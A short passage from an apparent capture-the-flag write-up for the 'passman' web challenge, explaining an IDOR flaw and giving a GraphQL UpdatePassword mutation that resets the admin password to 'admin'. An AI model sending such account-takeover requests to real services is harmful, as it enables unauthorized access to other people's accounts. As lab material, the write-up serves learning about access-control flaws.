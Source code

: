 ![passman_userandpass.png](https://github.com/Sec0gh/CTF/blob/main/Cyber%20Apocalypse%202023%20-%20The%20Cursed%20Mission/Web%20images/passman_userandpass.png)
- Why not update the admin password, and get IDOR(Vertical Access Control)?
- Using the `UpdatePassword` mutation we can pass the `username` and `password` variables as arguments to update the admin credentials.

```
{"query":"mutation($username: String!, $password: String!) { UpdatePassword(username: $username, password: $password) { message} }",
"variables":{
"username":"admin",
"password":"admin"
  }
}
```
